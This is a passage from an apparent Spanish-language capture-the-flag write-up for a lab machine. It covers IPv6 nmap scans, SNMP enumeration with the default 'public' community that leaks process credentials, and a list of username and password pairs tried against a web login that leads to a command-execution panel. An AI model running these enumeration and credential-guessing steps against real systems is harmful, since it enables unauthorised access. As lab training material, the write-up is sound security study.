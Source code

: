 Aqui no vemos nada muy interessante. Lo unico es la IPV6 address de la maquina.
Podemos intentar scanear con nmap con la IPV6. Primero tenemos que tocar la ip

```bash
de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:b9:55:91
dead:beef:0250:56ff:feb9:5591
ping -c 1 dead:beef:0250:56ff:feb9:5591
nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn -6 dead:beef:0250:56ff:feb9:5591 -oG allPortsipv6
extractPorts allPortsipv6
nmap -sCV -p22,80 -6 dead:beef:0250:56ff:feb9:5591 -oN targetedipv6
```

| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 22     | ssh      | Coneccion directa  |            |
| 80     | http     |                    |            |


### Analysando la web en ipv6 {-}

Con firefox se puede ver ipv6 poniendo la ip entre corchetes 
```bash
 [dead:beef:0250:56ff:feb9:5591] 
```
 y vemos un panel
de authenticacion. Intentamos credenciales por defecto pero no encontramos nada.

### SNMPWALK mas contundente {-}

Como sabemos que el puerto 3366 es un SimpleHTTPServer de python2.7, miramos si podemos 
recuperar mas informaciones para este servicio

```bash
snmpwalk -v2c -c public 10.10.10.92 hrSWRunName
snmpwalk -v2c -c public 10.10.10.92 hrSWRunName | grep python
snmpwalk -v2c -c public 10.10.10.92 hrSWRunTable | grep "568"
```

Aqui vemos credenciales 
```bash
 loki:godofmischiefisloki 
```
. Si nos connectamos con estas credenciales en el puerto 3366, podemos entrar
y vemos una tabla con otras credenciales. Vamos a la pagina del ipv6 y intentamos credenciales.

```bash
loki:godofmischiefisloki
loki:trickeryyanddeceit
admin:godofmischiefisloki
admin:trickeryyanddeceit
administrator:godofmischiefisloki
administrator:trickeryyanddeceit
```

vemos con la ultima credencial nos podemos connectar. Vemos un panel de ejecucion de comandos.
